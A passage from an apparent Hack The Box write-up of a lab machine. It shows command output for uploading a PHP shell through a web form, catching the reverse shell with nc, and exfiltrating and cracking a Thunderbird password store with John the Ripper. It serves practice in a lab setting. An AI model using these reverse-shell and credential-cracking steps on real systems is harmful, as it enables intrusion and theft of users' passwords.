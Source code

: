 ```

root@kali# ./request_shell.sh  10.10.14.139 8081
[*] Creating php shell and zip file
  adding: shell.php (deflated 5%)
[*] Getting PHPSESSID and CSRF token from /?op=upload
[+] Tokens received:
  PIPSESSID: tdjrjl4571r7ouutpn9aae1133
  CSRF:      d8f36f072d960fcb7110a5acb45668eed3faf78e52bbd268597fdd7ed464fb49
[*] Uploading zip though /?op=upload form
[+] File uploaded to ?op=view&secretname=92ec709161beddd0906c2191ee85b0e9217c682b
[*] Initiating callback to 10.10.14.139:8081

```

```

root@kali# nc -lnvp 8081
listening on [any] 8081 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 54104
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("bash")'
www-data@ubuntu:/var/www$ pwd
/var/www

```

## Privesc: www-data –> dom

Started off with a LinEnum.sh, but nothing particularly interesting jumped out.

`/home/dom` was open for reading, which in addition to giving `user.txt`, also revleas a `.thunderbird` directory with a profile in it.

### thunderbird - password extraction

Inside the profile, the first interesting thing is to look for passwords.

zip that entire directory and exfil it using `nc`. First, get the master password using john:

```

root@kali# /opt/JohnTheRipper/run/mozilla2john.py key3.db
key3.db:$mozilla$*3*20*1*811d3b70d608a8ad6faee44bf0568bd77ca8b2ca*11*0000000000000000000000*16*1810e3dcb634e700a4d959e35d38f282*20*11a9519177437ef38aa8bf1966d02f0d9f6a8c2f
root@kali# /opt/JohnTheRipper/run/mozilla2john.py key3.db > key3.db.john
root@kali:/opt/JohnTheRipper/run# ./john ~/hackthebox/crimestoppers-10.10.10.80/key3.db.john -w /usr/share/wordlists/rockyou.txt
Loaded 1 password hash (Mozilla, Mozilla key3.db [SHA1 3DES 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (key3.db)
1g 0:00:00:00 DONE (2018-04-08 17:34) 25.00g/s 88650p/s 88650c/s 88650C/s 123456..sss
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
